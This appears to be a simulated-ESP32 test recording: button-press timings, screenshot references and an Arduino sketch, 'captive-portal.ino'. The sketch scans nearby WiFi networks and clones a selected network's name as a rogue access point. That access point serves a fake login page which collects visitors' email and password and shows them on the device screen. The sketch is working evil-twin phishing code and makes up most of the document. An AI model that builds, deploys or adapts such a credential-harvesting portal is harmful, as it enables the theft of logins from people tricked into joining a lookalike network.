
Recording of a sketch running on a simulated ESP32. Parts: 320×240 colour display. The inputs (shaded band) are chosen by the test bench; at power-on: GPIO 4 (BUTTON_SELECT) HIGH, GPIO 21 (BUTTON_DOWN) HIGH, GPIO 22 (BUTTON_UP) HIGH. A WiFi scan finds three made-up networks; what the sketch prints to the serial monitor is not drawn.

Above: at 3.5 s.
3.6 s: GPIO 4 (BUTTON_SELECT) pulled LOW for 1 s
At 5.6 s:

6.1 s: GPIO 21 (BUTTON_DOWN) pulled LOW for 3.2 s
At 9.9 s:

10.8 s: GPIO 4 (BUTTON_SELECT) pulled LOW for 0.15 s
At 12.1 s:

12.4 s: GPIO 22 (BUTTON_UP) pulled LOW for 1 s
At 12.58 s:

14.9 s: GPIO 22 (BUTTON_UP) pulled LOW for 3.2 s
19.6 s: GPIO 4 (BUTTON_SELECT) pulled LOW for 3.2 s
At 23.0 s:


The sketch:

captive-portal.ino
```cpp
#include <WiFi.h>
#include <ESPAsyncWebServer.h>
#include <TFT_eSPI.h>

#define BUTTON_UP 22
#define BUTTON_DOWN 21
#define BUTTON_SELECT 4

#define TFT_MOSI 23
#define TFT_SCLK 18
#define TFT_CS   -1
#define TFT_DC   17
#define TFT_RST  16
#define TFT_BL   21

#define MAX_REDES 10 // Define o máximo de redes que serão armazenadas
#define NUM_REDES_POR_PAGINA 7 // Número de redes a serem exibidas por página

TFT_eSPI tft = TFT_eSPI();
AsyncWebServer server(80);

String email = "";
String senha = "";
String ssidSelecionado = "";
String macSelecionado = "";
String ipSelecionado = "";

String redes[MAX_REDES]; // Array para armazenar os SSIDs das redes Wi-Fi
int numRedes = 0;
int paginaAtual = 0; // Contador de páginas de redes exibidas
int redeSelecionada = 0; // Índice da rede selecionada na página atual

void setup() {
  Serial.begin(115200);

  pinMode(BUTTON_UP, INPUT_PULLUP);
  pinMode(BUTTON_DOWN, INPUT_PULLUP);
  pinMode(BUTTON_SELECT, INPUT_PULLUP);

  tft.init();
  tft.setRotation(3);
  tft.fillScreen(TFT_BLACK);
  tft.setTextColor(TFT_WHITE);
  tft.setTextSize(2);

  WiFi.mode(WIFI_AP_STA);

  Serial.println("Iniciando o processo de varredura de redes...");
  scanNetworks();
  displayNetworks();
}

void loop() {
  handleButtons();
}

void scanNetworks() {
  Serial.println("Escaneando redes Wi-Fi...");
  numRedes = WiFi.scanNetworks();
  Serial.print("Número de redes encontradas: ");
  Serial.println(numRedes);

  for (int i = 0; i < numRedes && i < MAX_REDES; i++) {
    redes[i] = WiFi.SSID(i);
    Serial.print("Rede ");
    Serial.print(i);
    Serial.print(": ");
    Serial.println(redes[i]);
  }
}

void displayNetworks() {
  tft.fillScreen(TFT_BLACK);
  tft.setTextSize(2);
  tft.setTextColor(TFT_WHITE);

  int startIndex = paginaAtual * NUM_REDES_POR_PAGINA;
  int endIndex = startIndex + NUM_REDES_POR_PAGINA;
  if (endIndex > numRedes) {
    endIndex = numRedes;
  }

  for (int i = startIndex; i < endIndex; i++) {
    int displayIndex = i - startIndex;
    tft.setCursor(10, displayIndex * 30 + 20);
    if (i == startIndex + redeSelecionada) {
      tft.setTextColor(TFT_RED);
      tft.setTextSize(2);
    } else {
      tft.setTextColor(TFT_WHITE);
      tft.setTextSize(2);
    }
    tft.println(redes[i]);
  }

  // Mostra número da página
  tft.setTextSize(1);
  tft.setCursor(10, 200);
  tft.println("Pagina " + String(paginaAtual + 1) + "/" + String((numRedes + NUM_REDES_POR_PAGINA - 1) / NUM_REDES_POR_PAGINA));
}

void handleButtons() {
  if (digitalRead(BUTTON_UP) == LOW) {
    if (redeSelecionada > 0) {
      redeSelecionada--;
    } else if (paginaAtual > 0) {
      paginaAtual--;
      redeSelecionada = NUM_REDES_POR_PAGINA - 1;
    }
    displayNetworks();
    delay(200);
  }
  if (digitalRead(BUTTON_DOWN) == LOW) {
    if (redeSelecionada < NUM_REDES_POR_PAGINA - 1 && (paginaAtual * NUM_REDES_POR_PAGINA + redeSelecionada) < (numRedes - 1)) {
      redeSelecionada++;
    } else if ((paginaAtual + 1) * NUM_REDES_POR_PAGINA < numRedes) {
      paginaAtual++;
      redeSelecionada = 0;
    }
    displayNetworks();
    delay(200);
  }
  if (digitalRead(BUTTON_SELECT) == LOW) {
    int redeAtual = paginaAtual * NUM_REDES_POR_PAGINA + redeSelecionada;
    Serial.println("Rede selecionada: " + redes[redeAtual]);
    ssidSelecionado = redes[redeAtual];
    macSelecionado = WiFi.BSSIDstr(redeAtual);

    // Corrigir a obtenção do IP da rede
    ipSelecionado = "0.0.0.0"; // A variável IP_LOCAL da rede não é válida aqui
    Serial.print("IP Local da Rede: ");
    Serial.println(ipSelecionado);

    displaySelectedNetwork();
    stopCaptivePortal();
    createCaptivePortal(ssidSelecionado);  // Corrigido para criar um AP com um nome diferente
    delay(200);
  }
}

void displaySelectedNetwork() {
  tft.fillScreen(TFT_BLACK);
  tft.setCursor(0, 0);
  tft.setTextColor(TFT_WHITE);
  tft.setTextSize(2);
  tft.println("Rede selecionada:");
  tft.setTextColor(TFT_GREEN);
  tft.setTextSize(3);
  tft.println(ssidSelecionado);
  tft.setTextSize(2);
  tft.setTextColor(TFT_WHITE);
  tft.println("Aguardando informações...");
  tft.setTextSize(1);
  tft.setTextColor(TFT_YELLOW);
  tft.println("MAC: " + macSelecionado);
  tft.println("IP: " + ipSelecionado); // Exibe o IP da rede local
}

void createCaptivePortal(String networkName) {
  Serial.println("Iniciando o processo de criação do AP...");

  String apName = networkName + "_AP";  // Adiciona um sufixo ao nome da rede para o AP
  Serial.print("Criando AP com o nome: ");
  Serial.println(apName);

  // Configuração do AP com um nome único e senha
  WiFi.softAPConfig(IPAddress(192, 168, 4, 1), IPAddress(192, 168, 4, 1), IPAddress(255, 255, 255, 0));
  if (!WiFi.softAP(apName.c_str(), "12345678")) {
    Serial.println("Falha ao criar o AP. Verifique a configuração.");
    return;
  }

  Serial.println("AP criado com sucesso.");
  IPAddress IP = WiFi.softAPIP();
  Serial.print("IP do AP: ");
  Serial.println(IP);
  Serial.print("Configurando o servidor HTTP...");

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){
    request->send(200, "text/html", "<html><body><h2>Captive Portal</h2><form action='/submit' method='post'><label>Email:</label><input type='text' name='email'><br><label>Senha:</label><input type='password' name='senha'><br><input type='submit' value='Enviar'></form></body></html>");
  });

  server.on("/submit", HTTP_POST, [](AsyncWebServerRequest *request){
    if(request->hasParam("email", true) && request->hasParam("senha", true)) {
      email = request->getParam("email", true)->value();
      senha = request->getParam("senha", true)->value();
      displaySubmittedInfo();
    } else {
      request->send(400, "text/plain", "Parametros email e senha necessarios");
    }
  });

  server.begin();
  Serial.println("Servidor HTTP iniciado com sucesso.");
  Serial.println("Captive Portal ativo. Acesse o IP do AP para interagir.");
}

void stopCaptivePortal() {
  Serial.println("Parando o Captive Portal...");
  WiFi.softAPdisconnect(true);
  server.end();
  Serial.println("Captive Portal parado.");
}

void displaySubmittedInfo() {
  tft.fillScreen(TFT_BLACK);
  tft.setCursor(0, 0);
  tft.setTextColor(TFT_WHITE);
  tft.setTextSize(2);
  tft.println("Informacoes Submetidas:");
  tft.setTextSize(3);
  tft.setTextColor(TFT_GREEN);
  tft.println("Email:");
  tft.println(email);
  tft.println("Senha:");
  tft.println(senha);
}
```

Measured:
- after the input at 3.6 s, the display: changes after 0.11 s (image 1)
- after the input at 6.1 s, the display: first changes at once (image 2 shows a later state)
- after the input at 10.8 s, the display: first changes at once (image 3 shows a later state)
- after the input at 12.4 s, the display: first changes at once (image 4 shows a later state)
- after the input at 19.6 s, the display: first changes at once (image 5 shows a later state)
